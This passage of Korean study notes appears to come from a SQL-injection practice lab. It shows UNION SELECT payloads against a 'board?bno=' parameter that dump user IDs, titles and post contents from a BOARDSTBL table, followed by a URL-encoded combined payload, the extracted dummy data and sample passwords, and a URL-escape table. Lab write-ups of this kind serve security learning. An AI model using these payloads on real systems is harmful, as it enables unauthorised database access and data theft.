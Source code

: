##### 결과 : Admin1234,Manager1234,User1234,Test1234,Secure1234,Ceo1234,Cto1234

##### 결과 : 관리자,매니저,사용자,테스터,보안,대표이사,기술이사

#### BOARDSTBL

```sql
board?bno=-99' union select 1,group_concat(USERID),3,4 from BOARDSTBL--
board?bno=-99' union select 1,group_concat(TITLE),3,4 from BOARDSTBL--
board?bno=-99' union select 1,group_concat(CONTENT),3,4 from BOARDSTBL--

```

##### 결과 : Admin,Manager,User,Test

##### 결과 : 공지사항,매니저입니다,사용자입니다,테스터입니다

##### 결과 : 공지사항입니다. 다양한 테스트를 시도해 보십시오.,새로 매니저가 되었습니다. 잘부탁드립니다.,사용자로 가입했습니다. 안녕하세요.,테스트해보세요

<br />

##### 모아서 한번에 확인하기

``` sql
board?bno=-99%27%20union%20select%201,group_concat(concat_ws(':',%20userid,title,content)),3,4%20from%20boardstbl--
```

##### 결과 : Admin:공지사항:공지사항입니다. 다양한 테스트를 시도해 보십시오.,Manager:매니저입니다:새로 매니저가 되었습니다. 잘부탁드립니다.,User:사용자입니다:사용자로 가입했습니다. 안녕하세요.,Test:테스터입니다:테스트해보세요

<br />

##### 번외 : URL Escape 문자

| 문자  | url  | 문자 | url  | 문자 | url  | 문자 | url  | 문자 | url  |
| ----- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- |
| space | %20  | (    | %28  | :    | %3A  | [    | %5B  | `    | %60  |
| !     | %21  | )    | %29  | ;    | %3B  | \\   | %5C  | {    | %7B  |
| "     | %22  | *    | %2A  | <    | %3C  | ]    | %5D  | \|   | %7C  |
| #     | %23  | +    | %2B  | =    | %3D  | ^    | %5E  | }    | %7D  |
| $     | %24  | ,    | %2C  | >    | %3E  | _    | %5F  | ~    | %7E  |
| %     | %25  | -    | %2D  | ?    | %3F  | .    | .    | .    | .    |
| &     | %26  | .    | %2E  | @    | %40  | .    | .    | .    | .    |
| '     | %27  | /    | %2F  | .    | .    | .    | .    | .    | .    |